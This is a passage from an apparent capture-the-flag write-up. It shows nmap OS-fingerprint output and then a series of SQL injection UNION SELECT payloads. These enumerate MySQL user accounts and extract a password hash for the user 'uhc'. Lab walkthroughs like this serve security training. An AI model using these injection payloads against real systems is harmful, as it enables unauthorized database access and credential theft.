 ```
| http-methods:
|  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=4/27%OT=22%CT=1%CU=31913%PV=Y%DS=2%DC=T%G=Y%TM=644B3AD
OS:9%P=aarch64-unknown-linux-gnu)SEQ(SP=100%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS
OS:=A)OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M
OS:550ST11NW7%O6=M550ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE
OS:88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M550NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=
OS:S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q
OS:=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A
OS:%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y
OS:%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T
OS:=40%CD=S)

Uptime guess: 27.230 days (since Fri Mar 31 15:46:20 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=256 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 111/tcp)
HOP RTT      ADDRESS
1   56.02 ms 10.10.14.1
2   56.12 ms 10.129.202.139

NSE: Script Post-scanning.
Initiating NSE at 21:17
Completed NSE at 21:17, 0.00s elapsed
Initiating NSE at 21:17
Completed NSE at 21:17, 0.00s elapsed
Initiating NSE at 21:17
Completed NSE at 21:17, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.07 seconds
           Raw packets sent: 66144 (2.914MB) | Rcvd: 65710 (2.632MB)
```

So, we definitely have an open SSH port now! But what user to use?

Maybe there’s password re-use with MySQL? Let’s see what we’ve got:

1. `' UNION SELECT COUNT(*) FROM mysql.user -- 1` shows that we have 6 users.
2. `' UNION SELECT user FROM mysql.user LIMIT 1 OFFSET 0 -- 1` (and iterating) shows that these users are `debian-sys-maint`, `mysql.infoschema`, `mysql.session`, `mysql.sys`, `root`, and `uhc`. Both `root` and `uhc` look promising.
3. `' UNION SELECT host FROM mysql.user WHERE user = 'root' -- 1` (and `uhc`) shows that both are permitted to login from `localhost` (though that may not mean anything, since this is just database access).
4. `' UNION SELECT authentication_string FROM mysql.user WHERE user = 'root' -- 1` (and `uhc`) reveals that `root` *doesn’t* have a password, but `uhc` has the password hash `$A$005$fqzRyy_GvC%I"Ud!F3Z3eO0EhsyqGcOsJRT9yyY2rX68rfr78QxWqRyR9tb2`. (Apparently there’s no `password` column in the `mysql.users` table anymore; it’s now called `authentication_string` per [the documentation](https://dev.mysql.com/doc/refman/8.0/en/grant-tables.html#grant-tables-user-db).)
